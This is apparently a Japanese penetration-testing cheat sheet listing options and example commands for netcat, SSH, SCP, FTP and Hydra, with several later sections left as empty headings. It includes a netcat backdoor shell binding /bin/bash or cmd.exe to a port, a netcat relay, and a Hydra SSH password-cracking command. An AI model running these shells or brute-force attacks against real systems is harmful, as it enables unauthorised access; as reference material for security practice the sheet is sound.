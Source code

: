 # high-frequency-tips(spxntips)
頻繁に使うコマンドのCheatSheet
(short link → bit.ly/spxntips)

## Netcat
オプション：
```
-l：リッスン
-n：名前解決を行わない
-k：コネクション確立後も接続をリッスンする
-v：接続状態などの出力を行う
-vv：接続状態などのより詳細な出力を行う
```
実行例(ポート1234でリッスン)：
```console
$nc -nvlp 1234
```
実行例(Backdoor Shell)
```console
$nc -nvlp [port] -e /bin/bash
```
OR
```console
C:\>nc -nvlp [port] -e cmd.exe
```
実行例(Ntcat Relays(Listener-to-Listner))
```console
$cd /tmp
$mknod backpipe p
$nc -l -p [port] 0<backpipe | nc -l -p [port] | tee backpipe
```
## SSH
オプション：
```
-p：ポート指定
-v：デバッグの出力
-vv：デバッグのより詳細な出力
-vvv："-vv"より更に詳細な出力
```
実行例(ターゲットのユーザに対してSSHで接続)
```console
$ssh user@[target(ip/hostname)]
```
### SCP(Secure Copy Protocol:SSH)
オプション：
```
-P：ポート指定
-v：デバッグの出力
-p：ファイルに付与されたタイムスタンプなどの情報を保持する
-r：再帰的(ディレクトリごと等)
*.txt：ワイルドカード
/home/user/{file1,file2,file3}：ファイルの複数選択 
```
実行例(リモートホストからローカルにコピーする)：
```console
$scp user@[target(ip/hostname)]:[remote_filepath] [local_filepath]
```
実行例(ローカルからリモートホストにコピーする)
```console
$scp [local_filepath] user@[target(ip/hostname)]:[remote_filepath]
```
## FTP
オプション：
```
-s:filename ：接続時にスクリプトを実行する
```
実行例(ターゲットに接続)：
```console
$ftp [target(ip/hostname)]
```
実行例(アップロード(FTP))：
```console
ftp>put [local_filepath]
```
実行例(ダウンロード(FTP))：
```console
ftp>get [remote_filepath]
```
## Hydra
オプション：
```
[service]：ssh, rdp, ftp, 
-C [file]：<login:pass>形式のUSERPASSリストを指定
-P [file]：PASSリストを指定
-U [file]：USERリストを指定
-s PORT：サービスが起動しているポート
-t：同時実行タスク数()
-v：詳細な出力
services: サービスの指定/対応サービス(asterisk afp cisco cisco-enable cvs firebird ftp ftps http[s]-{head|get} http[s]-{get|post}-form http-proxy http-proxy-urlenum icq imap[s] irc ldap2[s] ldap3[-{cram|digest}md5][s] mssql mysql ncp nntp oracle-listener oracle-sid pcanywhere pcnfs pop3[s] postgres rdp rexec rlogin rsh s7-300 sip smb smtp[s] smtp-enum snmp socks5 ssh sshkey svn teamspeak telnet[s] vmauthd vnc xmpp)
```
実行例(sshパスクラ)：
```console
$hydra -C [USERPASS_FILE] [target(ip/hostname)] ssh
```
## John the Ripper
## HashCat
## Metasploit Framework
 ### Meterpreter
 ### msfvenom
 ### Pivot
## Network
 ### Routing
 ### ICMP
 ### ARP
## Google Dork
## Linux General Command
## Windows General Command
